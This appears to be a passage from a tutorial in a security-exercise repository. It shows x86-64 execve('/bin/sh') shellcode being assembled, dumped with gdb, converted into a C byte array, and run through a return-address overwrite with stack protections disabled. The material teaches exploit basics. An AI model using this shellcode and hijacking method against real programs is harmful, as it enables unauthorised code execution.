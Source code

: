 

We can compile and execute it:
```
jorge@jorge:~/Escritorio/git/Calso$ nasm -felf64 shell.asm && ld shell.o -o a.out; ./a.out
$ ls
Address.c  BufOverStack.c  FormatStr.c	IntOver.c  README.md  Test.out	TestA1.c  TestA1_sol.c	a.out  shell.asm  shell.o  shellcode.c	shellcodeasm.c
$
```

The next step is to obtain the hexdump of the ASM code. We can use gdb to do this:

```
jorge@jorge:~/Escritorio/git/Calso$ gdb a.out
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1

...

(gdb) disassemble _start
Dump of assembler code for function _start:
   0x0000000000400080 <+0>:	mov    $0x0,%esi
   0x0000000000400085 <+5>:	push   %rsi
   0x0000000000400086 <+6>:	movabs $0x68732f2f6e69622f,%rdi
   0x0000000000400090 <+16>:	push   %rdi
   0x0000000000400091 <+17>:	mov    %rsp,%rdi
   0x0000000000400094 <+20>:	mov    $0x3b,%eax
   0x0000000000400099 <+25>:	cltd
   0x000000000040009a <+26>:	syscall
End of assembler dump.
(gdb) x/bx _start
0x400080 <_start>:	0xbe
(gdb)
0x400081 <_start+1>:	0x00
(gdb)
0x400082 <_start+2>:	0x00

...
```

We can copy the hexdump into a C char array:

```c
unsigned char code[]= "\xbe\x00\x00\x00\x00\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb8\x3b\x00\x00\x00\x99\x0f\x05";
```

The last step is very easy. We just need to replace the return address of a function call by the address of this array. We can reuse the code of the first exercise (file `shellcodeasm.c`).

Again, let's compile and execute it:

```
jorge@jorge:~/Escritorio/git/Calso$ gcc shellcodeasm.c -fno-stack-protector -z execstack -O0 -static; ./a.out
Hello
I am going to skip a statement
$ ls
Address.c  BufOverStack.c  FormatStr.c	IntOver.c  README.md  Test.out	TestA1.c  TestA1_sol.c	a.out  shell.asm  shell.o  shellcode.c	shellcodeasm.c
$
```
